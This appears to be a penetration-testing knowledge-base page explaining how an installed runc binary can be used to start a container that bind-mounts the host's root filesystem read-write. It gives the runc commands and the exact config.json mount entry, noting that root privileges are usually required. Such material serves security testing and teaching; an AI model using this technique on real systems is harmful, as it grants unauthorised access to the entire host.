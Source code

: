 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# runc

`runc` is a lightweight, portable container runtime that manages the lifecycle of containers according to the Open Container Initiative (OCI) specifications. It is commonly used as the underlying runtime for container platforms like Docker.

If `runc` is installed on a host, it may be possible to create and run a container that mounts the host’s root filesystem (`/`), potentially allowing access to the entire host.

```bash
# Verify the runc is installed
runc --help

# Generate a container configuration file
runc spec
```

This creates a `config.json` file in the current directory. Inside this file, locate the `"mounts"` section and add the following entry to bind mount the host’s root directory into the container:

```json
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
}
```

Next, create a `rootfs` folder in the same directory:

```bash
# Create the rootfs folder in the same directory
mkdir rootfs

# Start the container
runc run demo
```

This runs a container with access to the host’s root filesystem. Note that this technique may not always succeed because **`runc` typically requires `root` privileges to run containers**. Running `runc` as an unprivileged user generally fails unless a rootless configuration is in place. Rootless containers impose additional restrictions compared to traditional root-run containers, which is why rootless mode is not the default.
